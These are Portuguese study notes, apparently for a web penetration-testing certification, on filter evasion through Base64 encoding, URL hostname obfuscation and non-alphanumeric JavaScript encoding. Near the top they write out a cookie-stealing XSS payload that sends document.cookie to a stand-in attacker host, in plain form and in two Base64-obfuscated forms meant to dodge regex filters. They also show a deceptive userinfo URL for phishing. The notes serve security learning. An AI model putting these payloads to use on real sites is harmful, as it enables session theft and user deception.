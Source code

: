 # Base64 Encoding Evasion

A maioria dos sistemas de detecção utilizam o regex para encontrar palavras maliciosas. Imaginando que quero evadir de um sistema que procura pelas palavras: eval, alert, prompt, document.cookie

Normalmente se usa:
```JavaScript
location.href = 'http://evilpath.com/?c='+escape(document.cookie)
```

Ele não vai funcionar por causa do "document.cookie", uma alternativa seria:
```JavaScript
eval(atob("bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk="))
```

Para esse exemplo também não vai funcionar por causa do "eval", outra possibilidade seria:
```JavaScript
[].constructor.constructor(atob("bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk="))()
```

Outros métodos válidos:
```JavaScript
setTimeout("code")    # Todos os navegadores
setInterval("code")   # Todos os navegadores
setImmediate("code")  # IE 10+
Function("code")()    # Todos os navegadores
```
# URI Obfuscation Techiques

Utilizado principalmente para engenharia social, mas também pode ser usado em alguma situação que seja necessário ocultar a url, dar bypass em algum sistema ou diminuir o tamanho do payload
## URL Shortening

Utilizado para encurtar a url, pode-se usar soluções prontas ou criar a sua própria solução

https://yourls.org/  -> Solução Open Source <br>
https://bitly.com/   -> Solução paga

*colocando um '+' ao fim da url encurtada pelo bitly, é possível descobrir mais informações sobre o verdadeiro link*

Outra forma de descobrir o link verdadeiro é realizando um cURL e analisando o header "Location" na resposta
## URL Hostname Obfuscation

Referência para estudo \[RFC 3986]: https://datatracker.ietf.org/doc/html/rfc3986#page-16
### URL Authority Obfuscation

**Obfuscating with Userinfo**

Estrutura da URI segundo a rfc:
```
foo://example.com:8042/over/there?name=ferret#nose
\_/ \________________/\_________/ \_________/ \__/
 |           |             |           |       |
scheme   authority        path       query  fragment
```

O componente Authority pode ter a seguinte estrutura:
```
[ userinfo "@" ] host [ ":" port ]
```

O campo "userinfo" é usado para autenticação em aplicações, seguindo esse exemplo:
```
http://user:pass@o-site-para-autenticar.com.br
```

Quando o site não possui autenticação esse campo é ignorado. Isso permite usar esse campo para ofuscar informações, criando urls como a seguinte:
```
http://www.google.com@hack.me/xss
```

É possível usar caracteres unicode para deixar a url ainda mais convincente

![](https://github.com/SQU4NCH/eWPTX-Study-Notes/blob/main/Imagens/Pasted%20image%2020231226160208.png)

*Navegadores como o Firefox e o Opera, avisam o usuário final do redirecionamento. Já o Chrome não avisa nada*

**Obfuscating with Host**

Um site pode ser acessado tanto por seu endereço DNS como por seu endereço IP, e esse endereço IP pode estar em diferentes formatos, como por exemplo, Dword, Hexadecimal, Octal

Como exemplo, o Google pode ser acessado usando os seguintes endereços:
```
http://google.com
http://216.58.215.78           # IP
http://3627734862              # DWORD
http://0330.0072.0327.0116     # OCTAL
http://0xd83ad74e              # HEXADECIMAL
http://0xd8.0x3a.0xd7.0x4e     # HEXADECIMAL (separado por número)
```

Também é possível criar um endereço híbrido, mesclando dois ou mais formatos

Ferramenta para ajudar na conversão de formatos:

https://www.silisoftware.com/tools/ipconverter.php

# JavaScript Obfuscation Techiques

Existe várias formas de realizar encoding com JavaScript, uma das formas mais interessantes é utilizando uma técnica chamada "Non-alphanumeric". Basicamente essa técnica consiste em utilizar encodes com caracteres não alfa numéricos
## String Casting

No JavaScript é possível criar variáveis da seguinte forma:
```JavaScript
"" + 1234 or 1234 + ""  // Retorna "1234"
[] + 1234 or 1234 + []  // Retorna "1234"

x = "hello"
[1,"a",x]              // Retorna [1, "a", "hello"]
[1,"a",x]+""           // Retorna "1,a,hello"
```

**Booleans**

| False | True |
| --- | --- |
| !\[] | !!\[] |
| !{} | !!{} |
| !!"" | !"" |
| \[]\=={} | \[]\=="" |

Por exemplo, para retornar a string "true" ou "false", pode-se usar os exemplos acima
```JavaScript
[!![]]+""     // Retorna "true"
[![]]+""      // Retorna "false"
```

Também é possível criar números, por exemplo, o 0 pode ser criado da seguinte forma:
```Javascript
+""
-""
-+-+""
+[]
-[]
-+-+[]
![]+![]
![]+!{}
![]+!!""
```

True é igual a 1, False é igual a 0. Com isso é possível gerar o número 1 usando TRUE+FALSE e 2 usando TRUE+TRUE

| Number | Non-alphanumeric representations |
| ---- | ---- |
| 0 | +\[] , +"" , !\[]+!\[] |
| 1 | +!!\[] , !\[]+!"" , !\[]+!!\[] , ~\[]\*~\[] , ++\[\[]]\[+\[]] |
| 2 | !!\[]+!!\[] , ++\[++\[\[]]\[+\[]]]\[+\[]] |
| 3 | !!\[]+!!\[]+!!\[] |
| 4 | !!\[]+!!\[]+!!\[]+!!\[] , (!!\[]+!!\[])\*(!!\[]+!!\[]) |
| 5 | !!\[]+!!\[]+!!\[]+!!\[]+!!\[] |
### Generate 'alert' string

Para gerar uma palavra é preciso usar um output nativo do JavaScript e extrair o caractere desejado. por exemplo:
```JavaScript
_={}+[]      // é "[object Object]"
[]/[]+""     // é "NaN"
!![]/![]+""  // é "Infinity"
```

Então, para extrair p caractere "a" podemos usar o NaN e acessar a posição 1

```JavaScript
([]/[]+"")[![]+!![]]    // "a"
\________/\________/
     |         |
   "NaN"       1
```

O restante pode ser gerado usando as seguintes mensagens:

| | |
| ---- | ---- |
| l | fa**L**se |
| e | tru**E**, fals**E** ou \[obj**E**ct Obj**E**ct] |
| r | t**R**ue |
| t | **T**rue ou infini**T**y |

Existem algumas ferramentas baseadas nessas técnicas

https://utf-8.jp/public/jjencode.html <br>
https://utf-8.jp/public/aaencode.html <br>
https://jsfuck.com
## JavaScript Compressing

**Minifying**

O processo de "minifying" no código JavaScript consiste em remover todos os caracteres desnecessários do código sem alterar a funcionalidade original. Basicamente todos os caracteres que são utilizados para deixar o código mais legível são removidos. 

https://developers.google.com/closure/compiler/ <br>
https://yui.github.io/yuicompressor/  <br>
https://www.crockford.com/jsmin.html <br>
http://dean.edwards.name/packer/ 

**Packing**

O "packing" comprime o código gerado com o minifying encurtando os nomes de variáveis, funções e outras operações. A ideia é deixar o código ilegível

http://dean.edwards.name/packer/
